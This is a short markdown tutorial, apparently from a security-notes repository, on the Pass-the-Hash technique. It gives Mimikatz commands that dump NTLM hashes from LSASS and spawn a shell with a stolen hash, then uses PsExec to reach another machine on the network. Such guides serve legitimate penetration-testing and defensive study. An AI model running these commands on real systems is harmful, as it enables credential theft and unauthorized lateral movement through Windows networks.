



# Pass-the-Hash using Mimikatz

## Introduction


Pass-the-Hash stands as a formidable technique wielded by attackers, providing a means to authenticate themselves to remote servers or services by utilizing the NTLM or LanMan hash derived from a user's password.

One tool to execute Pass-the-Hash is Mimikatz. Mimikatz specializes in extracting password hashes from critical Windows components such as the Security Account Manager (SAM) database and the Local Security Authority Subsystem Service (LSASS). By obtaining these hashes, attackers can seamlessly execute pass-the-hash attacks, granting unauthorized access and allowing lateral movement within Windows networks.

## Step-by-Step Guide

### 1. Dump the NTLM hashes
```bash
mimikatz > lsadump::lsa /patch # or any other mimikatz commands to dump ntlm hashes
```


### 2. Use 'sekurlsa::pth' to spawn a new cmd with a chosen user ntlm credential

E.g. 'win7-1\user' with '8846f7eaee8fb117ad06bdd830b7586c' ntlm hash

```bash
mimikatz > sekurlsa::pth /user:user /domain:win7-1 /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:cmd
```



### 3. Use PsExec to connect to other machines

```bash
# PsExec.exe \\<TARGET MACHINE> cmd
C:\ >  PsExec.exe \\192.168.0.170 cmd
```



## Video Demonstration

[](https://www.youtube.com/embed/YvEYD7PEvio)

## References
- https://github.com/gentilkiwi/mimikatz/
- https://learn.microsoft.com/en-us/sysinternals/downloads/psexec


For Troubleshooting PsExec issues:
- https://superuser.com/questions/1810223/psexec-access-denied-on-remote-computer
- https://stackoverflow.com/questions/828432/psexec-access-denied-errors